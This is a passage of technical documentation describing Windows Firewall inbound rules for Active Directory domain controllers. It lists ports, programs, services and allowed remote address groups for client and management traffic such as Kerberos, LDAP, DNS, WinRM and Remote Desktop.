|53/TCP|DNS|[DNS (TCP, Incoming)](#dns-tcp-incoming)|
|49152-65535/TCP|FRS RPC|[File Replication (RPC)](#file-replication-rpc)|
|88/TCP|Kerberos|[Kerberos Key Distribution Center (TCP-In)](#kerberos-key-distribution-center-tcp-in)|
|88/UDP|Kerberos|[Kerberos Key Distribution Center (UDP-In)](#kerberos-key-distribution-center---pcr-udp-in)|
|445/UDP|SMB|[Active Directory Domain Controller - SAM/LSA (NP-UDP-In)](#active-directory-domain-controller---samlsa-np-udp-in)|
|445/TCP|SMB|[Active Directory Domain Controller - SAM/LSA (NP-TCP-In)](#active-directory-domain-controller---samlsa-np-tcp-in)|
|49152-65535/TCP|DFSR RPC|[DFS Replication (RPC-In)](#dfs-replication-rpc-in)|
|N/A|ICMPv4|[Active Directory Domain Controller - Echo Request (ICMPv4-In)](#active-directory-domain-controller---echo-request-icmpv4-in)|
|N/A|ICMPv6|[Active Directory Domain Controller - Echo Request (ICMPv6-In)](#active-directory-domain-controller---echo-request-icmpv6-in)|
|137/UDP|File and Printer Sharing|[File and Printer Sharing (NB-Name-In)](#file-and-printer-sharing-nb-name-in)|
|138/UDP|NetBIOS|[Active Directory Domain Controller - NetBIOS name resolution (UDP-In)](#active-directory-domain-controller---netbios-name-resolution-udp-in)|
|139/TCP|File and Printer Sharing|[File and Printer Sharing (NB-Session-In)](#file-and-printer-sharing-nb-session-in)|
|42/TCP|WINS|[Windows Internet Naming Service (WINS) (TCP-In)](#windows-internet-naming-service-wins-tcp-in)|
|42/UDP|WINS|[Windows Internet Naming Service (WINS) (UDP-In)](#windows-internet-naming-service-wins-udp-in)|

A handful of services that use dynamic RPC ports by default (see the table above)
can be configured to use static ones through the [Configuration File](#configuration-file):

- [NTDS](#ntdsstaticport)
- [Netlogon](#netlogonstaticport)
- [FRS](#frsstaticport)
- [DFSR](#dfsr-static-port)

Additional firewall rules that are not DC-specific might be required to enable core networking functionality
and server remote management:

|Port|Service|Rule Reference|
|---|---|---|
|N/A|ICMPv6|[Core Networking - Destination Unreachable (ICMPv6-In)](#core-networking---destination-unreachable-icmpv6-in)|
|N/A|ICMPv4|[Core Networking - Destination Unreachable Fragmentation Needed (ICMPv4-In)](#core-networking---destination-unreachable-fragmentation-needed-icmpv4-in)|
|N/A|ICMPv6|[Core Networking - Neighbor Discovery Advertisement (ICMPv6-In)](#core-networking---neighbor-discovery-advertisement-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Neighbor Discovery Solicitation (ICMPv6-In)](#core-networking---neighbor-discovery-solicitation-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Packet Too Big (ICMPv6-In)](#core-networking---packet-too-big-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Parameter Problem (ICMPv6-In)](#core-networking---parameter-problem-icmpv6-in)|
|N/A|ICMPv6|[Core Networking - Time Exceeded (ICMPv6-In)](#core-networking---time-exceeded-icmpv6-in)|
|5985/TCP|WinRM|[Windows Remote Management (HTTP-In)](#windows-remote-management-http-in)|
|5986/TCP|WinRM|[Windows Remote Management (HTTPS-In)](#windows-remote-management-https-in)|
|49152-65535/TCP|WMI|[Windows Management Instrumentation (WMI-In)](#windows-management-instrumentation-wmi-in)|
|3389/UDP|Remote Desktop|[Remote Desktop - User Mode (UDP-In)](#remote-desktop---user-mode-udp-in)|
|3389/TCP|Remote Desktop|[Remote Desktop - User Mode (TCP-In)](#remote-desktop---user-mode-tcp-in), [Remote Desktop (TCP-In)](#remote-desktop-tcp-in)|
|22/TCP|SSH|[OpenSSH SSH Server (sshd)](#openssh-ssh-server-sshd)|
|49152-65535/TCP|DFS Management|[DFS Management (TCP-In)](#dfs-management-tcp-in)|
|49152-65535/TCP|DNS RPC|[RPC (TCP, Incoming)](#rpc-tcp-incoming)|
|49152-65535/TCP|Windows Backup|[Windows Backup (RPC)](#windows-backup-rpc)|
|49152-65535/TCP|Performance Logs|[Performance Logs and Alerts (TCP-In)](#performance-logs-and-alerts-tcp-in)|
|49152-65535/TCP|COM+ Remote Mng|[COM+ Remote Administration (DCOM-In)](#com-remote-administration-dcom-in)|
|49152-65535/TCP|Remote Event Log Mng |[Remote Event Log Management (RPC)](#remote-event-log-management-rpc)|
|49152-65535/TCP|Remote Scheduled Tasks Mng|[Remote Scheduled Tasks Management (RPC)](#remote-scheduled-tasks-management-rpc)|
|49152-65535/TCP|Remote Service Mng|[Remote Service Management (RPC)](#remote-service-management-rpc)|
|49152-65535/TCP|Remote Volume Mng|[Remote Volume Management - Virtual Disk Service (RPC)](#remote-volume-management---virtual-disk-service-rpc)|
|49152-65535/TCP|Remote Volume Mng|[Remote Volume Management - Virtual Disk Service Loader (RPC)](#remote-volume-management---virtual-disk-service-loader-rpc)|
|49152-65535/TCP|WINS Remote Mng|[Windows Internet Naming Service (WINS) - Remote Management (RPC)](#windows-internet-naming-service-wins---remote-management-rpc)|
|49152-65535/TCP|Firewall Remote Mng|[Windows Defender Firewall Remote Management (RPC)](#windows-defender-firewall-remote-management-rpc)|

### Client Traffic

#### Active Directory Domain Controller - W32Time (NTP-UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | W32Time-NTP-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 123 |
| Program     | `%systemroot%\System32\svchost.exe` |
| Service     | `w32time` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow NTP traffic for the Windows Time service. [UDP 123] |
| Remote Addresses | Any |

> [!NOTE]
> As the NTP service might be used by non-Windows clients,
> we do not limit the remote addresses.

#### Active Directory Domain Controller (RPC-EPMAP)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-RPCEPMAP-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPCEPMap |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `rpcss` |
| Description | Inbound rule for the RPCSS service to allow RPC/TCP traffic to the Active Directory Domain Controller service. |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This firewall rule opens ports `135/TCP` (RPC Endpoint Mapper) and `593/TCP` (RPC Endpoint Mapper over HTTP).
Only port `135/TCP` is [used by Windows clients](#port-scanning).

#### Kerberos Key Distribution Center - PCR (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-Password-UDP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 464 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service to allow for password change requests. [UDP 464] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Kerberos Key Distribution Center - PCR (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-Password-TCP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 464 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service to allow for password change requests. [TCP 464] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-RPC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule to allow remote RPC/TCP access to the Active Directory Domain Controller service. |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule enables multiple crucial RPC-based protocols, including:

- Directory Replication Service
- Netlogon Service
- Key Distribution Service

Two dynamic RPC ports are used by default, but the services can be [reconfigured to use static ones](#ntdsstaticport).

#### Active Directory Domain Controller - LDAP (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAP-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 389 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote LDAP traffic. [UDP 389] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - LDAP (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAP-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 389 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote LDAP traffic. [TCP 389] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Secure LDAP (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAPSEC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 636 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote Secure LDAP traffic. [TCP 636] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - LDAP for Global Catalog (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAPGC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 3268 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote Global Catalog traffic. [TCP 3268] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Secure LDAP for Global Catalog (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAPGCSEC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 3269 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote Secure Global Catalog traffic. [TCP 3269] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### DNS (UDP, Incoming)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DNSSrv-DNS-UDP-In |
| Group       | DNS Service |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 53 |
| Program     | `%systemroot%\System32\dns.exe` |
| Service     | `dns` |
| Description | Inbound rule to allow remote UDP access to the DNS service. |
| Remote Addresses | Any |

> [!NOTE]
> As the DNS service might be used by non-Windows clients, we do not limit the remote addresses.

#### DNS (TCP, Incoming)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DNSSrv-DNS-TCP-In |
| Group       | DNS Service |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 53 |
| Program     | `%systemroot%\System32\dns.exe` |
| Service     | `dns` |
| Description | Inbound rule to allow remote TCP access to the DNS service. |
| Remote Addresses | Any |

> [!NOTE]
> As the DNS service might be used by non-Windows clients, we do not limit the remote addresses.

#### Kerberos Key Distribution Center (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-TCP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 88 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service. [TCP 88] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Kerberos Key Distribution Center (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-UDP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 88 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service. [UDP 88] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - SAM/LSA (NP-UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-NP-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 445 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to be remotely managed over Named Pipes. [UDP 445] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

> [!NOTE]
> We are not sure if this rule is actually needed, as we have never seen UDP traffic on port 445.
> However, it is part of the predefined firewall rules on Windows Server and is mentioned in several official documents.

#### Active Directory Domain Controller - SAM/LSA (NP-TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-NP-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 445 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to be remotely managed over Named Pipes. [TCP 445] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Echo Request (ICMPv4-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-ICMP4-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | ICMPv4 |
| ICMP Type   | 8 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow Echo requests (ping). |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Echo Request (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-ICMP6-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 128 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow Echo requests (ping). |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - NetBIOS name resolution (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-NB-Datagram-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 138 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow NetBIOS name resolution. [UDP 138] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNetbiosDatagramService](#enablenetbiosdatagramservice) setting.

#### Core Networking - Destination Unreachable (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-DU-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 1 |
| Program     | `System` |
| Description | Destination Unreachable error messages are sent from any node that a packet traverses which is unable to forward the packet for any reason except congestion. |
| Scope | Any |

#### Core Networking - Destination Unreachable Fragmentation Needed (ICMPv4-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP4-DUFRAG-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv4 |
| ICMP Type   | 3:4 |
| Program     | `System` |
| Description | Destination Unreachable Fragmentation Needed error messages are sent from any node that a packet traverses which is unable to forward the packet because fragmentation was needed and the don't fragment bit was set. |
| Scope | Any|

#### Core Networking - Neighbor Discovery Advertisement (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-NDA-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 136 |
| Program     | `System` |
| Description | Neighbor Discovery Advertisement messages are sent by nodes to notify other nodes of link-layer address changes or in response to a Neighbor Discovery Solicitation request. |
| Scope | Any |

#### Core Networking - Neighbor Discovery Solicitation (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-NDS-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 135 |
| Program     | `System` |
| Description | Neighbor Discovery Solicitations are sent by nodes to discover the link-layer address of another on-link IPv6 node. |
| Scope | Any |

#### Core Networking - Packet Too Big (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-PTB-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 2 |
| Program     | `System` |
| Description | Packet Too Big error messages are sent from any node that a packet traverses which is unable to forward the packet because the packet is too large for the next link. |
| Scope | Any|

#### Core Networking - Parameter Problem (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-PP-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 4 |
| Program     | `System` |
| Description | Parameter Problem error messages are sent by nodes as a result of incorrectly generated packets. |
| Scope | Any |

#### Core Networking - Time Exceeded (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-TE-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 3 |
| Program     | `System` |
| Description | Time Exceeded error messages are generated from any node that a packet traverses if the Hop Limit value is decremented to zero at any point on the path. |
| Scope | Any |

#### File and Printer Sharing (NB-Name-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | FPS-NB_Name-In-UDP |
| Group       | File and Printer Sharing |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 137 |
| Program     | `System` |
| Description | Inbound rule for File and Printer Sharing to allow NetBIOS Name Resolution. [UDP 137] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNetbiosNameService](#enablenetbiosnameservice) setting.

#### File and Printer Sharing (NB-Session-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | FPS-NB_Session-In-TCP |
| Group       | File and Printer Sharing |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 139 |
| Program     | `System` |
| Description | Inbound rule for File and Printer Sharing to allow NetBIOS Session Service connections. [TCP 139] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNetbiosSessionService](#enablenetbiossessionservice) setting.

### Management Traffic

#### Active Directory Web Services (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADWS-TCP-In |
| Group       | Active Directory Web Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 9389 |
| Program     | `%systemroot%\ADWS\Microsoft.ActiveDirectory.WebServices.exe` |
| Service     | `adws` |
| Description | Inbound rule for the Active Directory Web Services. [TCP] |
| Remote Addresses<br>([RestrictADWS](#restrictadws) is `false`) | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |
| Remote Addresses<br>([RestrictADWS](#restrictadws) is `true` and [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) is `false`) | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |
| Remote Addresses<br>([RestrictADWS](#restrictadws) is `true` and [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) is `true`) | [Management Computers](#managementaddresses) |

> [!NOTE]
> Restrictions to the ADWS traffic [might be risky in some organizations](#the-bad).

#### Windows Remote Management (HTTP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINRM-HTTP-In-TCP-PUBLIC |
| Group       | Windows Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 5985 |
| Program     | `System` |
| Description | Inbound rule for Windows Remote Management via WS-Management. [TCP 5985] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWindowsRemoteManagement](#enablewindowsremotemanagement) setting.
The scope of this rule can further be limited by enabling
the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Windows Remote Management (HTTPS-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINRM-HTTPS-In-TCP-PUBLIC |
| Group       | Windows Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 5986 |
| Program     | `System` |
| Description | Inbound rule for Windows Remote Management via WS-Management. [TCP 5986] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This custom rule is governed by the [EnableWindowsRemoteManagement](#enablewindowsremotemanagement) setting.
The scope of this rule can further be limited by enabling
the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

> [!NOTE]
> This is a custom firewall rule, as there is no built-in rule allowing traffic on port 5986/TCP.

#### Windows Management Instrumentation (WMI-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WMI-WINMGMT-In-TCP |
| Group       | Windows Management Instrumentation (WMI) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | Any |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `winmgmt` |
| Description | Inbound rule to allow WMI traffic for remote Windows Management Instrumentation. [TCP] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This protocol uses a dynamic RPC port by default, but it can be [reconfigured to use a static one](#wmistaticport).
The scope of this rule can further be limited by enabling
the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

> [!NOTE]
> The WMI protocol also supports receiving asynchronous callbacks through
> the `%systemroot%\system32\wbem\unsecapp.exe` binary. This feature is rarely used and we are unaware of a practical
> use case for async clients running on domain controllers. The corresponding firewall rule is therefore omitted.

#### Remote Desktop - User Mode (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteDesktop-UserMode-In-UDP |
| Group       | Remote Desktop |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 3389 |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `termservice` |
| Description | Inbound rule for the Remote Desktop service to allow RDP traffic. [UDP 3389] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableRemoteDesktop](#enableremotedesktop) setting.
The scope of this rule can further be limited by enabling
the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote Desktop - User Mode (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteDesktop-UserMode-In-TCP |
| Group       | Remote Desktop |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 3389 |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `termservice` |
| Description | Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableRemoteDesktop](#enableremotedesktop) setting.
The scope of this rule can further be limited by enabling
the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote Desktop (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteDesktop-In-TCP |
| Group       | Remote Desktop |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 3389 |
| Program     | `System` |
| Description | Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

> [!NOTE]
> This legacy rule is created for backward compatibility with Windows Server 2008 R2 and earlier.
> It was superseded by the [Remote Desktop - User Mode (TCP-In)](#remote-desktop---user-mode-tcp-in) rule
> in Windows Server 2012.

This rule is governed by the [EnableRemoteDesktop](#enableremotedesktop) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### DFS Management (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DfsMgmt-In-TCP |
| Group       | DFS Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\dfsfrsHost.exe` |
| Description | Inbound rule for DFS Management to allow the DFS Management service to be remotely managed via DCOM. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

 The scope of this rule can further be limited by enabling
 the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### RPC (TCP, Incoming)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DNSSrv-RPC-TCP-In |
| Group       | DNS Service |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\System32\dns.exe` |
| Service     | `dns` |
| Description | Inbound rule to allow remote RPC/TCP access to the DNS service. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

 The scope of this rule can further be limited by enabling
 the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Windows Backup (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WindowsServerBackup-wbengine-In-TCP-NoScope |
| Group       | Windows Backup |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\wbengine.exe` |
| Service     | `wbengine` |
| Description | Inbound rule for the Windows Backup Service to be remotely managed via RPC/TCP |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableBackuManagement](#enablebackupmanagement) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Performance Logs and Alerts (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | PerfLogsAlerts-PLASrv-In-TCP-NoScope |
| Group       | Performance Logs and Alerts |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | Any |
| Program     | `%systemroot%\system32\plasrv.exe` |
| Description | Inbound rule for Performance Logs and Alerts traffic. [TCP-In] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnablePerformanceLogAccess](#enableperformancelogaccess) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### COM+ Remote Administration (DCOM-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ComPlusRemoteAdministration-DCOM-In |
| Group       | COM+ Remote Administration |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\dllhost.exe` |
| Service     | `COMSysApp` |
| Description | Inbound rule to allow DCOM traffic to the COM+ System Application for remote administration. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableComPlusManagement](#enablecomplusmanagement) setting.
The scope of this rule can
further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote Event Log Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteEventLogSvc-In-TCP |
| Group       | Remote Event Log Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `Eventlog` |
| Description | Inbound rule for the local Event Log service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableEventLogManagement](#enableeventlogmanagement) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote Scheduled Tasks Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteTask-In-TCP |
| Group       | Remote Scheduled Tasks Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `schedule` |
| Description | Inbound rule for the Task Scheduler service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableScheduledTaskManagement](#enablescheduledtaskmanagement) setting.
The scope of this rule
can further be limited by enabling the [BlockManagementFromDomainControllers](#blockmanagementfromdomaincontrollers) setting.

#### Remote Service Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteSvcAdmin-In-TCP |
| Group       | Remote Service Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\services.exe` |
| Description | Inbound rule for the local Service Control Manager to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableServiceManagement](#enableservicemanagement) setting.
The scope of this rule
